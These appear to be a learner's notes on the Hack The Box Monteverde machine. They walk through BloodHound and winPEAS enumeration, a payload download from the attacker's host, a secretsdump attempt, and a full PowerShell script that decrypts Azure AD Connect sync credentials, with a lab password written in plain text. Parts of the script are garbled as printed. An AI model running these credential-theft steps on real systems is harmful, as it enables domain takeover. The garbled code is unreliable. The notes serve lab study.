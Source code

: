 
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

If you recall that we have seen this account user name starting with AAD_ is used for actual sync service.
https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account

![[Pasted image 20240505041831.png]]

![[Pasted image 20240505041255.png]]


AD Sync 
![[Pasted image 20240505041505.png]]
So we see a Microsoft Azure AD Sync Folder 

We can enumerate the service instance using the Registry.
```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
![[Pasted image 20240505041916.png]]


```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```
![[Pasted image 20240505043207.png]]

First i tried running this to know if it working cuz the tools we are going to use will extract the password dump from the AD as it's using DPAPI

```
secretsdump.py MEGABANK.LOCAL/mhope:'4n0therD4y@n0th3r$'@10.10.10.172 -use-vss
```
![[Pasted image 20240505042603.png]]

https://github.com/dirkjanm/adconnectdump
https://blog.xpnsec.com/azuread-connect-for-redteam/
If i recall it correct we have also used another tool written by this fella. (i.e. ldapdomain dump)

Let's try the tool
![[Pasted image 20240505044351.png]]

I don't know how to run the tool as it wants a file that we can decrypt using this tool.
```
/root/HackTheBox/Monterverde/adconnectdump/decrypt.py
```


```
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```
![[Pasted image 20240505045617.png]]

```
instance_id: 1852B527-DD4F-4ECF-B541-EFCCBFF29E31
keyset_id: 1
entropy: 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Changes:
```
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Now will save the script adconnect.ps1
```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName
Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']"
| select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']"
| select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name =
'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```